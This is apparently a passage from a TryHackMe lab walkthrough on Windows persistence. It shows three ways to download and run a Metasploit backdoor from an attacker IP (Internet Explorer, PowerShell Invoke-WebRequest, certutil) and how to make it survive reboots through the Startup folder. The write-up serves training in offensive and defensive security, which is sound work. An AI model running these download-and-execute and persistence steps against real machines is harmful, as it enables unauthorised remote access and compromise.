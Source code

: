 
## Delivery method I

But first, go to Internet Explorer settings and choose "Internet Options".


Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.



After adding your IP to the trusted websites you can close that tab, and then click OK.

Now, you should be able to download your backdoor.


By pressing on the "Run" button the backdoor will be executed by the system and a connection to Metasploit will be created.


## Delivery method II

﻿Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command: Invoke-WebRequest http://10.x.x.x/backdoor.exe

To execute the backdoor type .\backdoor.exe﻿

## Delivery method III

You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline. The command to download the file is: certutil -urlcache -split -f http://10.x.x.x/backdoor.exe

Execution of the backdoor is done in the same way as the one at method II, by typing .\backdoor.exe


This is a low privileged user account with no administrative privileges.


## Startup folder persistence

Supposing we do not consider privilege escalation is necessary and we just want to have access to the system in case the user restarts the machine the simplest method would be moving the backdoor to the startup folder.

The path of the startup folder is: C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup. %username% in our case is tryhackme. Browse to that path and upload the binary you generated with msfvenom.


Since the binary is in the startup folder every time a user restarts its computer and logs in the backdoor will be executed and Metasploit will receive the connection.


### Editing registries

Depending on the registries a low privileged user might be able to edit them. With this in mind, an attacker could edit the registries to achieve persistence.
